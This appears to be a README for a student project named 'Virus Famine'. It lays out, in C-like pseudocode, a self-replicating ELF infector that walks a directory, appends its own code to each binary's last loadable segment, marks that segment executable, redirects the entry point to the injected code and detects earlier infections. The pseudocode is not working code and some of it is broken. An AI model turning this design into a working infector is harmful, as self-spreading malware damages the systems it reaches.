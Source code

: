 # Virus Famine

This virus is coded only for academic purposes, and is:

 - Inoffensif, as it only add a write("HelloWorld")
 - Easily detectable by modern technics

# Pseudocode

## Main

First function called
easily changeable directory of interest

```c
void	main()
{
	start_virus = %rip;
	char **dir_path = "./test";

	infect_dir(dir_path, save_rip);
	bonus_function();
}
```

## infect dir

Need to manage errors of open and mmap

```c
void	infect_dir(char *dir_path, void *start_virus)
{
	dir = open_dir(dir_path);

	for file in dir:
		mem_file, file_size = mmap(file)
		if (NULL != (mem_file = infect_file(mem_file, file_size, start_virus)));
			save(file);
	return ;
}
```

## infect_file

the maestro function

```c
uint8_t	infect_file(void *file, size_t file_size, void *start_virus)
{
	// Check if file is good, and find last loadable segment
	elfphdr *phdr = find_phdr(file, file_size);
	if (phdr == NULL)
		return NULL;
	// Check if file already taken care of
	if (check_if_not_infected(start_virus, phdr + phdr->offset - VIRUS_SIZE))
		return NULL;
	// Extend file size if necessary
	file = extend_memory(file, file_size, phdr, VIRUS_SIZE);
	if (file == NULL)
		return NULL;
	// Find again the phdr
	elfphdr *phdr = find_phdr(file, file_size);
	// Inject self in file
	spot = file + (phdr->offset + phdr->size)
	memcopy(spot, start_virus, VIRUS_SIZE)
	file->e_entry = spot
	phdr->rights += EXECUTE
	phdr->size += VIRUS_SIZE
	return file	
}
```

## find_phdr

Find the phdr corresponding to the segment of injection

```c
elfphdr	*find_phdr(void *file, size_t file_size)
{
	if (BAD == (MAGIC_NB || ENDIAN || 64bits))
		return NULL;
	if (PHDR_ARRAY_END < ENOUGH_SPACE)
		return NULL;
	for phdr in phdr_array:
		if last_loadable:
			best_phdr = phdr;
	return best_phdr;
}
```

## Checking if already infected

1st idea, might not be the right way

```c
uint8_t	check_if_not_infected(uint8_t *cave_self, unit8_t *cave_new)
{
	count = 0;
	for i in range(VIRUS_SIZE):
		if cave_self[i] == cave_new[i]:
			count += 1;
	if ((float)count / (float)VIRUS_SIZE > 0.9)
		return TRUE;
	return FALSE;
}
```

## Extend memory

Carefull on overflow

```c
void *extend_memory(file, file_size, phdr, VIRUS_SIZE)
{

	int space_available = file_size - (phdr->offset + phdr->size)
	int space_missing = space_available - VIRUS_SIZE
	if space_missing < 0:
		new_file = mmap(space_missing)
		memcopy(new_file, file, file_size)
	return new_file;
}
```

## Bonus

```c
void bonus_function()
{
	whatever we want;
	will be nice to connect to a server to say hello
	will be nice to change background image
	will be nice to print in terminal an ascii pic of a cute kitten
}
```
